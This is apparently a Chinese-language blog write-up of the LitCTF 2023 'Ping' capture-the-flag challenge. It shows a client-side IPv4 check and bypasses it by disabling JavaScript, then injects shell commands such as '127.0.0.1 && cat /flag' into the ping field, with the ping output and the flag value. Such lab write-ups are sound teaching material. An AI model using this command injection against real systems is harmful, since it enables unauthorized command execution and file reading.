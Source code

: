 ```yaml
---
title: '[LitCTF 2023]Ping'
date: '2025-05-02T21:34:46+08:00'
weight: 
draft: false
description: '[LitCTF 2023]Ping'
---
```


检查页面元素，发现 `form` 的 `onsubmit` 属性在表单提交时触发 ` JavaScript` 代码，验证用户输入是否是一个合法的 IPv4 地址

![PixPin_2025-04-29_21-49-13](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-04-29_21-49-13.86tut2eb00.webp)

```javascript
function check_ip() {
    let ip = document.getElementById('command').value;
    let re = /^(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)\.(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)\.(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)\.(25[0-5]|2[0-4]\d|[0-1]\d{2}|[1-9]?\d)$/;

    if (re.test(ip.trim())) {
        return true;
    }
    alert('敢于尝试已经是很厉害了，如果是这样的话，就只能输入ip哦');
    return false;
}
```

禁用网页 ` JavaScript`，查找 `flag` 文件：`127.0.0.1 && find / -iname flag`

```shell
PING 127.0.0.1 (127.0.0.1): 56 data bytes

64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.065 ms

64 bytes from 127.0.0.1: seq=1 ttl=42 time=0.051 ms

64 bytes from 127.0.0.1: seq=2 ttl=42 time=0.051 ms

64 bytes from 127.0.0.1: seq=3 ttl=42 time=0.057 ms

64 bytes from 127.0.0.1: seq=4 ttl=42 time=0.048 ms

64 bytes from 127.0.0.1: seq=5 ttl=42 time=0.058 ms



--- 127.0.0.1 ping statistics ---

6 packets transmitted, 6 packets received, 0% packet loss

round-trip min/avg/max = 0.048/0.055/0.065 ms

/flag
```

输出 `/flag` 内容：`127.0.0.1 && cat /flag`

```shell
PING 127.0.0.1 (127.0.0.1): 56 data bytes

64 bytes from 127.0.0.1: seq=0 ttl=42 time=0.057 ms

64 bytes from 127.0.0.1: seq=1 ttl=42 time=0.059 ms

64 bytes from 127.0.0.1: seq=2 ttl=42 time=0.049 ms

64 bytes from 127.0.0.1: seq=3 ttl=42 time=0.059 ms

64 bytes from 127.0.0.1: seq=4 ttl=42 time=0.054 ms

64 bytes from 127.0.0.1: seq=5 ttl=42 time=0.044 ms



--- 127.0.0.1 ping statistics ---

6 packets transmitted, 6 packets received, 0% packet loss

round-trip min/avg/max = 0.044/0.053/0.059 ms

flag=NSSCTF{a1dc7cb6-18e6-4011-868f-929e1834457c}
```

